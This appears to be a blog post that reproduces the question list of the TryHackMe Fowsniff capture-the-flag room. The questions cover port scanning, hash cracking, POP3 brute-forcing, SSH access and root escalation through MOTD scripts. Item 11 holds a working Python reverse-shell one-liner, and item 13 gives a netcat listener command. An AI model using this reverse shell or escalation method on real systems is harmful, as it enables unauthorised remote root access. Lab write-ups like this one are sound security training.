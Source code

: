 ```yaml
---
title:  "THM: Fowsniff CTF"
date:   2024-03-31 19:00:00 +0000
categories: [Windows]
tags: [Windows]
---
```


![img](/assets/img/fowsniff-ctf.png)  


---
Ref: 

- [THM: Fowsniff CTF](https://tryhackme.com/r/room/ctf)

---
Deploy the machine. On the top right of this you will see a Deploy button. Click on this to deploy the machine into the cloud. Wait a minute for it to become live.



1. Using nmap, scan this machine. What ports are open?


2. Using the information from the open ports. Look around. What can you find?


3. Using Google, can you find any public information about them?


4. Can you decode these md5 hashes? You can even use sites like hashkiller to decode them.

5. Using the usernames and passwords you captured, can you use metasploit to brute force the pop3 login?


6. What was seina's password to the email service?

Answer : **********

7. Can you connect to the pop3 service with her credentials? What email information can you gather?

8. Looking through her emails, what was a temporary password set for her?

Answer format: ***********************

9. In the email, who send it? Using the password from the previous question and the senders username, connect to the machine using SSH.


10. Once connected, what groups does this user belong to? Are there any interesting files that can be run by that group?


11. Now you have found a file that can be edited by the group, can you edit it to include a reverse shell?

Python Reverse Shell:

python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((<IP>,1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

Other reverse shells: [here](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet).


12. If you have not found out already, this file is run as root when a user connects to the machine using SSH. We know this as when we first connect we can see we get given a banner (with fowsniff corp). Look in /etc/update-motd.d/ file. If (after we have put our reverse shell in the cube file) we then include this file in the motd.d file, it will run as root and we will get a reverse shell as root!


13. Start a netcat listener (nc -lvp 1234) and then re-login to the SSH service. You will then receive a reverse shell on your netcat session as root!

--- 

If you are really really stuck, there is a brilliant walkthrough here: https://www.hackingarticles.in/fowsniff-1-vulnhub-walkthrough/ 

If its easier, follow this walkthrough with the deployed machine on the site.
